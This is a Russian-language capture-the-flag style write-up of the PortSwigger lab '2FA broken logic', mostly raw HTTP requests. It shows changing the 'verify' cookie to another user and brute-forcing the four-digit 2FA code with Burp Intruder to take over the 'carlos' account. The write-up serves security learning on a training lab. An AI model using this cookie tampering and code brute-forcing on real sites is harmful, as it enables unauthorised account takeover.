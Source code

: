 ```yaml
---
title: "2FA broken logic"
date: 2025-09-12
tags: [web, authentication, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/authentication-vulnerabilities/vulnerabilities-in-multi-factor-authentication/authentication/multi-factor/lab-2fa-broken-logic"
classes: wide
---
```


В данной лабе нарушена логика двухфакторной аутентификации. Для прохождения нужно получить доступ к аккаунту `carlos`. Даны креды от нашего пользователя `wiener`:`peter`.

```
https://0aa300a704e0a59a81867f920029008c.web-security-academy.net
```

## Solution

Сразу пойду на страницу логина, чтобы собрать все запросы:

Получаею страницу для входа:

```http
GET /login HTTP/2
Host: 0aa300a704e0a59a81867f920029008c.web-security-academy.net
Cookie: session=LQDyifn6acpYrKiyvaAXblZiWDQObt25
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Ввожу данные:

```http
POST /login HTTP/2
Host: 0aa300a704e0a59a81867f920029008c.web-security-academy.net
Cookie: session=LQDyifn6acpYrKiyvaAXblZiWDQObt25
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net/login
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

username=wiener&password=peter
```

Редирект на форму ввода кода:

```http
GET /login2 HTTP/2
Host: 0aa300a704e0a59a81867f920029008c.web-security-academy.net
Cookie: session=GuGvuYdgcYBbmadL3h4qUABwMvGbPjN8; verify=wiener
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Отправка кода:

```http
POST /login2 HTTP/2
Host: 0aa300a704e0a59a81867f920029008c.web-security-academy.net
Cookie: session=GuGvuYdgcYBbmadL3h4qUABwMvGbPjN8; verify=wiener
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net/login2
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Origin: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

mfa-code=0115
```

Переход на страницу аккаунта:

```http
GET /my-account HTTP/2
Host: 0aa300a704e0a59a81867f920029008c.web-security-academy.net
Cookie: session=LQDyifn6acpYrKiyvaAXblZiWDQObt25
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

После ввода логина и пароля сайт установил мне `Cookie` значение `verify=winer`. Попробую отправить запрос `GET /login2`, изменив значение `verify` на `carlos`.

```http
GET /login2 HTTP/2
Host: 0aa300a704e0a59a81867f920029008c.web-security-academy.net
Cookie: session=GuGvuYdgcYBbmadL3h4qUABwMvGbPjN8; verify=carlos
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Получил форму ввода кода:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_2FA_broken_logic/1.png){: height="200" .align-center}

Попробую подобрать нужный пароль через `Intruder` простым брутфорсом:

```http
POST /login2 HTTP/2
Host: 0aa300a704e0a59a81867f920029008c.web-security-academy.net
Cookie: session=GuGvuYdgcYBbmadL3h4qUABwMvGbPjN8; verify=carlos
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net/login2
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Origin: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

mfa-code=§code§
```

Настройки пейлоада:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_2FA_broken_logic/2.png){: height="200" .align-center}

Провел атаку и отсортировал по коду ответа. При правильном коде я должен получить ответ `302`:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_2FA_broken_logic/3.png){: height="200" .align-center}

Вытащу значение `session` из `Cookie` ответа и вставлю в браузере для входа:

```http
HTTP/2 302 Found
Location: /my-account?id=carlos
Set-Cookie: session=RaBbH8fs2OGpCmO1fscpJQXrw5iivK5R; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_2FA_broken_logic/4.png){: height="200" .align-center}

Обновил страницу. И вот я залогинился)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_2FA_broken_logic/5.png){: height="200" .align-center}
